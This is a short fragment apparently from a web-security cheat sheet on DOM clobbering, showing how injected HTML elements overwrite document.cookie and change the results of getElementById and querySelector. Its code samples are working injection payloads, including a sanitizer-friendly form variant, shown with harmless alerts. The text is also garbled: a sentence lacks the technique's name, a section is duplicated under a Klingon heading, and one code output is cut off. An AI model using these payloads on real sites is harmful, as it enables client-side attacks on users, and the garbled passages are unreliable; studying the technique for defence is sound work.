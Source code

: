 **Using** **technique** **you can overwrite** **commonly used** **values such as** `document.cookie`, `document.body`, `document.children`, **and even methods in the Document interface like** `document.querySelector`.
```javascript
document.write("<img name=cookie />")

document.cookie
<img name="cookie">

typeof(document.cookie)
'object'

//Something more sanitize friendly than a img tag
document.write("<form name=cookie><input id=toString></form>")

document.cookie
HTMLCollection(2) [img, form, cookie: img]

typeof(document.cookie)
'object
```
## Writing after the element clobbered

**`document.getElementById()`** **`document.querySelector()`** calls can be altered by injecting a `<html>` or `<body>` tag with an identical id attribute. Here's how it can be done:

---

## qo'wI' 'e' yIqIm

**`document.getElementById()`** **`document.querySelector()`** calls can be altered by injecting a `<html>` or `<body>` tag with an identical id attribute. Here's how it can be done:

---
```html
<div style="display:none" id="cdnDomain" class="x">test</div>
<p>
<html id="cdnDomain" class="x">clobbered</html>
<script>
alert(document.getElementById('cdnDomain').innerText); // Clobbered
alert(document.querySelector('.x').innerText); // Clobbered
</script>
```